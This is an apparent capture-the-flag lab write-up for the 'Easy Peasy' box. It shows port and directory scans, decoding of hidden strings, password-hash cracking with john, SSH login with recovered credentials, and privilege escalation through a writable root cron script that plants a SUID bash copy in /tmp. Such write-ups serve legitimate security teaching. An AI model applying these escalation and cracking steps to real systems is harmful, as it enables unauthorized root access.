









# Easy Peasy

## NMAP

```
$ nmap -p- 10.10.124.104 
Nmap scan report for 10.10.124.104
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
6498/tcp  open  unknown
65524/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 817.06 seconds                                                                  
```

```
$ nmap -p- -Pn 10.10.124.104 
Nmap scan report for 10.10.124.104
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 499.64 seconds
                                                                
```

```
nmap -sV -p 6478,65524,80 10.10.124.104
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-13 16:27 EDT
Nmap scan report for 10.10.124.104
Host is up (0.058s latency).

PORT      STATE  SERVICE VERSION
80/tcp    open   http    nginx 1.16.1
6498/tcp  open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open   http    Apache httpd 2.4.43 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.26 seconds

```

## NGINX
### Gobuster

```
$ gobuster dir -u http://10.10.124.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.124.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/hidden               (Status: 301) [Size: 169] [--> http://10.10.124.104/hidden/]                                                                                
Progress: 23743 / 87665 (27.08%)^C
```

### Lost Places



The hidden page contains nothing other the a creepy image as a backgroun. Stegonography analysis returned nothing of value from the image, and neither did reverse image search. Binwalk also did not find anything inside this folder

### Gobuster again

```
$ gobuster dir -u http://10.10.124.104/hidden -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.124.104/hidden
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/whatever             (Status: 301) [Size: 169] [--> http://10.10.124.104/hidden/whatever/]  
```

### whatever



The title of the web page is "dead end" and there is a picture of norway scenary.

Looking at the html we find.

```
<center>
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
</center>
```

This is the base64 for the first flag: ```flag{f1rs7_fl4g}```

## Apache Website

### Gobuster

```
gobuster dir -u http://10.10.124.104:65524/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.124.104:65524/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s

```

no results on this

### Looking at the page again

I realized it was not the normal apache default landing page, the title was changed.



Looking at the source html we find this:


```<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>```

It is base32 encoding for /n0th1ng3ls3m4tt3r

We also find the html comment:

```
<!--      <div class="table_of_contents floating_element">
        <div class="section_header section_header_grey">
          TABLE OF CONTENTS
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#about">About</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#flag">hi</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#scope">Scope</a>
        </div>
        <div class="table_of_contents_item floating_element">
          <a href="#files">Config files</a>
        </div>
      </div>
-->
```

also a third flag

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

### n0th1ng3ls3m4tt3r



Looking at the html we find:
```

<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
```

```
$ hash-identifier hash.txt 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

 Not Found.
--------------------------------------------------
 HASH: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
```

I tried it with sha256 but it was not loading the password properly so I tring with gost and it worked

```
$ john --format=raw-sha256 --wordlist=easypeasy.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2023-10-13 18:17) 0g/s 73442p/s 73442c/s 73442C/s 123456..sunshine
Session completed. 
```

https://en.wikipedia.org/wiki/GOST_(hash_function)

```
$ john --format=gost --wordlist=easypeasy.txt hash.txt      
Using default input encoding: UTF-8
Loaded 1 password hash (gost, GOST R 34.11-94 [64/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mypasswordforthatjob (?)     
1g 0:00:00:00 DONE (2023-10-13 18:18) 10.00g/s 40960p/s 40960c/s 40960C/s mypasswordforthatjob..flash88
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### Robots.txt



```a18672860d0510e5ab6699730763b250``` this looks like md5

I tried to crack it with wordlists but got nowhere
So i just went for a full brute force attack.

By the comment we know it is a flag so i tried it with the a mask that resembles a flag

```$ john --mask='flag{?a}' --min-length=15 --max-length=25 --format=raw-md5 md5_hash.txt```

after a long time i gave up and went to a online service to do this.

It got the password in under 2 seconds




### Binary image


On the /n0th1ng3ls3m4tt3r page we also have an image file called ```binarycodepixabay.jpg```. I tried binwalk on but got nothing.


I tried a online stegonography decoder with the password we got on the same page and it worked





There is a username boring and password in binary.

The binary to ascii got us the password ```iconvertedmypasswordtobinary```


## SSH

```
$ ssh boring@10.10.63.137 -p 6498
The authenticity of host '[10.10.63.137]:6498 ([10.10.63.137]:6498)' can't be established.
ED25519 key fingerprint is SHA256:6XHUSqR7Smm/Z9qPOQEMkXuhmxFm+McHTLbLqKoNL/Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.63.137]:6498' (ED25519) to the list of known hosts.
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.63.137's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ 
```

```
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

It is rotated using rot13




## Priv Esc

```
boring@kral4-PC:/tmp$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

```
boring@kral4-PC:/tmp$ ls -l /var/www/.
./                   ../                  .mysecretcronjob.sh
boring@kral4-PC:/tmp$ ls -l /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh
boring@kral4-PC:/tmp$ cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
```

```
boring@kral4-PC:/tmp$ cat /var/www//.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
cp /bin/bash /tmp/mal_bash

chmod +xs /tmp/mal_bash

boring@kral4-PC:/tmp$ ls -l
total 1104
-rwsr-sr-x 1 root root 1113504 Oct 13 16:59 mal_bash
drwx------ 3 root root    4096 Oct 13 15:28 systemd-private-252828c62d9e47408f37948c25b5aa52-apache2.service-Pxm0cZ
drwx------ 3 root root    4096 Oct 13 15:27 systemd-private-252828c62d9e47408f37948c25b5aa52-ModemManager.service-wkIemM
drwx------ 3 root root    4096 Oct 13 15:27 systemd-private-252828c62d9e47408f37948c25b5aa52-systemd-resolved.service-R6q2zH
drwx------ 3 root root    4096 Oct 13 15:27 systemd-private-252828c62d9e47408f37948c25b5aa52-systemd-timesyncd.service-SfXCtD
boring@kral4-PC:/tmp$ ./mal_bash -p
mal_bash-4.4# whoami 
root
mal_bash-4.4# 

```

```
mal_bash-4.4# find -name "*root.txt" 
./root/.root.txt
mal_bash-4.4# cd root/
mal_bash-4.4# ls
mal_bash-4.4# ls -l
total 0
mal_bash-4.4# ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root  883 Jun 15  2020 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
```

